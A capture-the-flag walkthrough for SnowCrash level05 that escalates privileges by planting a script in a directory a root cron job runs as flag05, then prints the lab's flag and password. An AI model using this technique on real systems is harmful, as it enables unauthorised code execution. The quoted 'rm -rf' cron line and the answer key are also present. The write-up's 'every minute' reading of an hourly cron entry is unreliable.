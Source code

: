 # level05

## Cronjobs and init.rc shenanigans

For no reason whatsoever, let's try running this command:
```bash
level05@SnowCrash:~$ grep -R 'flag05' /var
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/var/spool/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Wow, in an unrelated train of thought, why don't we take a look at `/var/spool/cron/crontabs/root`
```bash
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.zk72ug/crontab installed on Sat Mar  5 20:18:51 2016)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
0 * * * * rm -rf /tmp/* /var/tmp/*
```
Every 2 minutes, `su -c "sh /usr/sbin/openarenaserver" - flag05` is run, executing `sh /usr/sbin/openarenaserver` as `flag05`
Every minute `rm -rf /tmp/* /var/tmp/*` is run.

So, what's inside of `/usr/sbin/openarenaserver`?
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
So this script executes whatever is inside of `/opt/openarenaserver` as a bash script with a limit of 5 seconds of cpu time, before removing it.

So, lets make our own bash script to get our flag
```bash
level05@SnowCrash:~ $ rm -f /tmp/flag; \
> printf '#!/bin/sh\ngetflag>/tmp/flag\n'>/opt/openarenaserver/snjort; \
> chmod +x /opt/openarenaserver/snjort; \
> while true; do if [ -f /tmp/flag ]; then cat /tmp/flag; exit; fi; done
Check flag.Here is your token : viuaaale9huek52boumoomioc
exit
level05@SnowCrash:~ $ su level06
Password: viuaaale9huek52boumoomioc
level06@SnowCrash:~ $ 
```
